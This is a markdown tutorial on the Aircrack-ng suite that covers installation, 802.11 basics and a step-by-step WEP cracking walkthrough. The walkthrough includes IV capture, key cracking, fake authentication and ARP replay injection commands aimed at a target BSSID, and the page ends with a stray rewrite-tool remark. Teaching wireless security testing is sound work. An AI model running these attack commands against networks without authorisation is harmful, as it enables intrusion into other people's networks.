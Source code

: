 ```yaml
---
title: "Aircrack-ng: Understanding and Using the Tool"
description: "Learn how to effectively use Aircrack-ng for wireless network security testing."
icon: "code"
draft: false
---
```


This guide introduces the basics of using the Aircrack-ng suite, offering a solid foundation for beginners while providing pointers for further exploration. For additional insights, the Forum and Wiki offer extensive supplementary tutorials and information.

## Installing Aircrack-ng

To install Aircrack-ng on your Kali Linux system, follow these steps:

```sh
git clone https://github.com/aircrack-ng/aircrack-ng
cd aircrack-ng
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```

<a target='_blank'><img src='https://i.postimg.cc/rwfSz9v2/aircrack.png' border='0' alt='aircrack'/></a>

Make sure you also run the command:
```sh
sudo apt update
sudo apt install pciutils
```

### IEEE 802.11 Basics

Before diving into practical use, understanding how wireless networks operate is crucial. This knowledge helps in troubleshooting and accurately describing issues for further assistance.

#### Network Discovery

Wireless networks with Access Points (APs) periodically broadcast beacon frames containing information like:

- Network name (ESSID)
- Encryption status and type
- Supported data rates
- Channel number

Tools like `iwlist <interface> scan` and `airodump-ng` capture this information, essential for network reconnaissance.

#### Connecting to Networks

Connecting to a wireless network typically involves Open System Authentication, where:

1. Authentication request is sent to the AP.
2. AP responds with authentication approval.
3. Association request is sent to establish connection.
4. AP responds with connection approval.

Challenges arise with WPA/WPA2, MAC filtering, and Shared Key Authentication, requiring correct settings and credentials.

### Simple Sniffing and Cracking

#### Network Identification

Identify target networks using tools like `airodump-ng` or Kismet. Start by enabling monitor mode:

```sh
airmon-ng start wlan0
```

Use `airodump-ng wlan0mon` to scan networks and gather information.

#### Capturing IVs

Capture Initialization Vectors (IVs) to crack WEP keys. Use:

```sh
airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump wlan0mon
```

Successful WEP cracking requires capturing 40,000 to 85,000 IVs.

#### Cracking WEP

Once sufficient IVs are captured, use Aircrack-ng:

```sh
aircrack-ng -b 00:01:02:03:04:05 dump-01.cap
```

Adjust parameters based on IV count and scenario specifics.

### Active Attacks

#### Packet Injection

Ensure your wireless card and driver support packet injection for effective attacks. Test with:

```sh
aireplay-ng --fakeauth 0 -e "your network ESSID" -a 00:01:02:03:04:05 wlan0mon
```

Successful injection enables subsequent attacks.

#### ARP Replay

Use ARP replay to expedite WEP cracking:

```sh
aireplay-ng --arpreplay -b 00:01:02:03:04:05 -h 00:04:05:06:07:08 wlan0mon
```

Capture ARP packets to enhance cracking efficiency.

### Conclusion

This guide provides a foundational understanding of Aircrack-ng for wireless network security testing. For advanced techniques and detailed scenarios, consult online resources. Remember, ethical and legal considerations are essential in all security testing endeavors.
```

This version organizes information into clear sections, improves readability, and maintains a structured flow for understanding and using Aircrack-ng effectively.